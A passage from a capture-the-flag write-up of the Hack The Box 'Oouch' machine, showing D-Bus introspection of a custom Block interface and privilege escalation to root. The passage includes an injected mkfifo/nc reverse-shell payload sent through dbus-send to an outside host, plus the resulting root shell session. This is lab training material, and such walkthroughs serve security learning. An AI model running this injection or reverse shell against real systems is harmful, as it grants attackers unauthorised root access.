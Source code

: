 ```python
$ dbus-send --system --type=method_call --print-reply --dest=htb.oouch.Block /htb/oouch/Block org.freedesktop.DBus.Introspectable.Introspect
dbus-send --system --type=method_call --print-reply --dest=htb.oouch.Block /htb/oouch/Block org.freedesktop.DBus.Introspectable.Introspect
method return time=1591687819.038208 sender=:1.3 -> destination=:1.3209 serial=10 reply_serial=2
   string "<!DOCTYPE node PUBLIC "-//freedesktop//DTD D-BUS Object Introspection 1.0//EN"
"http://www.freedesktop.org/standards/dbus/1.0/introspect.dtd">
[node](node)
 [interface name="org.freedesktop.DBus.Peer"](interface name="org.freedesktop.DBus.Peer")
  [method name="Ping"/](method name="Ping"/)
  [method name="GetMachineId"](method name="GetMachineId")
   [arg type="s" name="machine_uuid" direction="out"/](arg type="s" name="machine_uuid" direction="out"/)
  [/method](/method)
 [/interface](/interface)
.
.
.
 [interface name="htb.oouch.Block"](interface name="htb.oouch.Block")
  [method name="Block"](method name="Block")
   [arg type="s" direction="in"/](arg type="s" direction="in"/)
   [arg type="s" direction="out"/](arg type="s" direction="out"/)
  [/method](/method)
 [/interface](/interface)
[/node](/node)
```

First We need to get the Interface name and method name. And we got them both.

Now mix them up and I got the payload.

```python
dbus-send --system --type=method_call --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1234 >/tmp/f;"
```

### Getting Root

By running the payload as `www-data` and my nc listener is started and I got shell as root.

```python
root@kali:~/CTF/HTB/Boxes/Oouch# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.177] 38992
bash: cannot set terminal process group (2717): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# whoami
whoami
root
root@oouch:/root# ls   
ls
credits.txt
dbus-server
dbus-server.c
get_pwnd.log
get_pwnd.py
root.txt
root@oouch:/root# cat root.txt	
cat root.txt
```

We own the box.